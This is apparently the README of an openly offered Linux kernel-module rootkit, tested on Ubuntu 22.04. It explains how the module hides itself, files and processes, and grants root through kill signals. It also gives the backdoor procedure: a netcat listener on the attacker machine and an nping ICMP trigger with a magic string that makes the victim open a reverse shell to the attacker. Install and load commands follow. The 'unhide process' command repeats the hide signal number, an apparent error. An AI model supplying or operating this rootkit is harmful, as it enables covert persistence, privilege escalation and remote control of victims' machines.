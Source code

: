# Linux Kernel Module rootkit

For educational purposes only.

Tested on ubuntu 22.04.1 LTS.

This simple kernel module rootkit overwrites linux system calls to hide itself, hide files and directories and hide multiple processes. Also when loaded it secretly starts an ICMP listener that starts a reverse shell in response to an attackers ping. It can be controlled via `kill` commands: 

## Commands

- Hide/Show rootkit in the list of loaded modules (`$ lsmod`)
  
  ```
  $ kill -63 1
  ```
  
  When installed it starts hidden. You can only remove it when it's unhidden.

- Become root
  
  ```
  $ kill -64 1
  ```

- Hide process with pid

  ```
  $ kill -62 <pid>
  ```

- Unhide process with pid

  ```
  $ kill -62 <pid>
  ```

It also hides every file and directory with prefix `rootk_`.

## Backdoor

On attacker machine start netcat listener on some port:

```
$ nc -lnvp <port>
```

Send ICMP ping to victim:

```
$ nping --icmp -c 1 -dest-ip <victim-ip> --data-string 'xCs!w@ <attacker-ip> <port>'
```

## Install

Compile module and backdoor:

```
$ make
$ make install
```

Load module:

```
$ sudo insmod rk.ko
```

### Remove module:

Make sure the module is visible in `lsmod`. To toggle visibility run `kill -63 1`.

Then you can remove it using:

```
$ sudo rmmod rk.ko
```
